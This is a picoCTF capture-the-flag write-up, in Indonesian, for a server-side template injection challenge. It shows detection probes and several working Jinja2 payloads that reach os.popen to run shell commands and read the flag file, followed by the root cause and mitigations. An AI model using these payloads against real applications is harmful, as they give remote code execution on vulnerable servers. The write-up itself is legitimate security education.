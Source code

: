 # picoCTF – “SSTI1” (Web Exploitation)

**Hint:** SSTI (Server-Side Template Injection)
**URL:** `http://rescued-float.picoctf.net:58489/`

## Recon

* Input pada fitur “announce” direfleksikan kembali ke halaman.
* Uji SSTI:

  * Kirim `{{7*7}}` → jika merender `49`, berarti Jinja2 (Python).
  * Kirim `{{request}}` → server menampilkan `<Request '...'>`, memastikan objek `request` tersedia di konteks template.

## Exploit

Manfaatkan akses ke objek global melalui Jinja2 untuk memanggil perintah sistem (RCE ringan) dan membaca file flag.

Payload final:

```jinja2
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

Jika perlu enumerasi:

```jinja2
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}
```

Alternatif path:

```jinja2
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /flag').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```

## Result

Server mengembalikan:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
```

## Root Cause

Aplikasi merender input pengguna sebagai *template* Jinja2, sehingga ekspresi `{{ ... }}` dievaluasi. Dari objek yang terekspos (`request`), kita bisa merantai ke `application.__globals__` → `__builtins__` → `__import__('os')` → `popen()` untuk menjalankan perintah shell.

## Mitigasi

* **Jangan** merender input user sebagai template.
* Gunakan engine yang **hanya** melakukan substitusi string, atau aktifkan *sandbox* ketat.
* Nonaktifkan akses ke `__globals__`, builtins, dan filter berbahaya.
* Escape output (`{{ ... }}` → teks literal) dan lakukan validasi/whitelist.
